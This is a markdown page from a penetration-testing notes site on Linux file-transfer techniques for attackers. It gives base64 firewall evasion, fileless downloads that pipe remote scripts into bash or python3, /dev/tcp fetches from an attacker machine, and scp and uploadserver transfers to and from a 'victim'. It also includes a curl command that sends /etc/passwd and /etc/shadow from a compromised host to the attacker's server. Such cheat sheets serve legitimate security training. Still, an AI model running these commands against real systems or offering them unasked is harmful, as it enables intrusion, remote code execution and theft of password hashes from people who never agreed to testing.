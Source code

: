 ```yaml
---
title: Transferring files techniques - Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - linux
  - exploitation
  - file transfer technique
  - backdoors
---
```

# Transferring files techniques  - Linux

## Download to Linux

### Base64

To avoid firewall protections we can:

**1.** Base64 encode the file:

```shell-session
base64 file.php -w 0

# Alternative
cat file |base64 -w 0;echo

```

**2.** Copy the base64 string, go to the remote host and decode it and pipe to a file:

```shell-session
echo -n "Looooooong-string-encoded-in-base64" | base64 -d > file.php
# -n: do not output the trailing newline
```

### Replicating client-server 

#### 1. Setting up a server in the attacking machine 

[See different techniques](servers.md)

#### 2. Download files from victim's machine

##### wget

```shell-session
wget http://<SERVERIP>:<SERVERPORT>/<file> -O  <OutputNameForFile>
# -O:  set the output filename.
```

##### curl

```shell-session
curl http://http://<SERVERIP>:<SERVERPORT>/<file> -o <OutputNameForFile>
```


### Fileless downloads using Linux

Because of the way Linux works and how pipes operate, most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

##### Fileless Download with cURL

```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```


##### Fileless Download with wget

```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### Bash downloads

As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads. On the server side (attacking machine), setup a server by using one of the methodologies applied above.

On the client side (victim's machine):

```shell-session
# Connecting to the Target Webserver (attacking machine serving the file)
exec 3<>/dev/tcp/$ip/80

# Requesting the file to the server 
echo -e "GET /file.sh HTTP/1.1\n\n">&3

# Printing the Response
cat <&3
```


### SSH downloads: SCP

SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol. 

Two requirements:

 - we have ssh user credentials on the remote host
 - ssh is open on port 22

On the server's side (attacker's machine):

```shell-session
# Enable the service
sudo systemctl enable ssh

# Start the server
sudo systemctl start ssh

# Check if port is listening
netstat -lnpt
```

From the attacker machine too:

```
# Download file foobar.txt saved in the victim's machin. Command is run from attacker machine connecting to the remote host (victim's machine)
scp username@$IPvictim:foobar.txt /some/local/directory
```



```
# Upload file foo.txt saved in attacker machine into the victim's. Command is run from attacker machine connecting to the remote host (victim's machine)
scp foo.txt username@$IPvictim:/some/remote/directory
```

## Upload to Linux

### Web upload

We can use [uploadserver](uploadserver.md).

The target machine is a linux. We will upload a file from that target machine to our attacker machine:

```bash
# Install
python3 -m pip install --user uploadserver


# As we will use https, we will create a self-signed certificate.
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

#  The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.
mkdir https && cd https


# Start the web server
python3 -m uploadserver 443 --server-certificate /location/different/folder/server.pem

# Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.
curl -X POST https://$attackerIP/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
# We used the option --insecure because we used a self-signed certificate that we trust.
```


### SSH uploads: SCP

SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol. 

Two requirements:

 - we have ssh user credentials on the remote host
 - ssh is open on port 22

On the server's side (attacker's machine):

```shell-session
# Enable the service
sudo systemctl enable ssh

# Start the server
sudo systemctl start ssh

# Check if port is listening
netstat -lnpt
```

From the attacker machine too:

```
# Upload file foo.txt saved in attacker machine into the victim's. Command is run from attacker machine connecting to the remote host (victim's machine)
scp foo.txt username@$IPvictim:/some/remote/directory
```


### Rsync over SSH

[More about RSYNC protocol](873-rsync.md).

Before you can start transferring files and directories with rsync over SSH, make sure you can [use SSH to connect to a remote server](https://phoenixnap.com/kb/ssh-to-connect-to-remote-server-linux-or-windows). Once verified, you can begin backing up your data. Ensure your destination system has sufficient storage space.

The syntax for copying files to a remote server over SSH with the **`rsync`** command is:

```
rsync OPTION SourceDirectory_or_filePath user@serverIP_or_name:Target

# Example
rsync ~/Desktop/Dir1/"source pdf sample.pdf" test@192.168.56.100:~/Desktop/test
```


### Backdoors

See [reverse shells](reverse-shells.md), [bind shells](bind-shells.md), and [web shells](web-shells.md).

